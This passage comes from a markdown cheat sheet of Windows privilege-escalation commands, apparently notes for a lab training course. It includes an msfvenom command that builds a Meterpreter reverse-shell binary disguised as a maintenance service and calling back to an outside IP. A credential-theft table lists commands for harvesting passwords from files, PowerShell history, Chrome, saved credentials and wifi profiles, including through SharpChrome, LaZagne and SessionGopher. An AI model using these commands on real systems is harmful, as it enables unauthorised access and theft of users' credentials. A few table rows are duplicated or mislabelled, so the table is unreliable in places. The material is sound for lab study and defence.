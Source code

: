 | `Get-CimInstance Win32_StartupCommand \| select Name, command, Location, User \| fl`                                                                                                  | Check startup programs                                     |
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`                                                                       | Generating a malicious binary                              |
| `get-process -Id 3324`                                                                                                                                                                | Enumerating a process ID with PowerShell                   |
| `get-service \| ? {$_.DisplayName -like 'Druva*'}`                                                                                                                                    | Enumerate a running service by name with PowerShell        |

## Credential Theft

| **Command**                                                                                                               | **Description**                                    |                                             |     |
| ------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- | ------------------------------------------- | --- |
| `findstr /SIM /I /C:"ldapadmin" *.txt *ini *.cfg *.config *.xml`                                                          | Search for files with the phrase "password"        | Search for files with the phrase "password" |     |
| `gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' \| Select-String password` | Searching for passwords in Chrome dictionary files |                                             |     |
| `(Get-PSReadLineOption).HistorySavePath`                                                                                  | Confirm PowerShell history save path               |                                             |     |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                               | Reading PowerShell history file                    |                                             |     |
| `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`                                                                 | Decrypting PowerShell credentials                  |                                             |     |
| `cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt`                                         | Searching file contents for a string               |                                             |     |
| `findstr /si password *.xml *.ini *.txt *.config`                                                                         | Searching file contents for a string               |                                             |     |
| `findstr /spin "password" *.*`                                                                                            | Searching file contents for a string               |                                             |     |
| `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password`                                              | Search file contents with PowerShell               |                                             |     |
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`                                        | Search for file extensions                         |                                             |     |
| `where /R C:\ *.config`                                                                                                   | Search fo                                          | Search for file extensions                  |     |
| `where /R C:\ *.config`                                                                                                   | Search for file extensions                         |                                             |     |
| `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`                                  | Search for file extensions using PowerShell        |                                             |     |
| `cmdkey /list`                                                                                                            | List saved credentials                             |                                             |     |
| `.\SharpChrome.exe logins /unprotect`                                                                                     | Retrieve saved Chrome credentials                  |                                             |     |
| `.\lazagne.exe -h`                                                                                                        | View LaZagne help menu                             |                                             |     |
| `.\lazagne.exe all`                                                                                                       | Run all LaZagne modules                            |                                             |     |
| `Invoke-SessionGopher -Target WINLPE-SRV01`                                                                               | Running SessionGopher                              |                                             |     |
| `netsh wlan show profile`                                                                                                 | View saved wireless networks                       |                                             |     |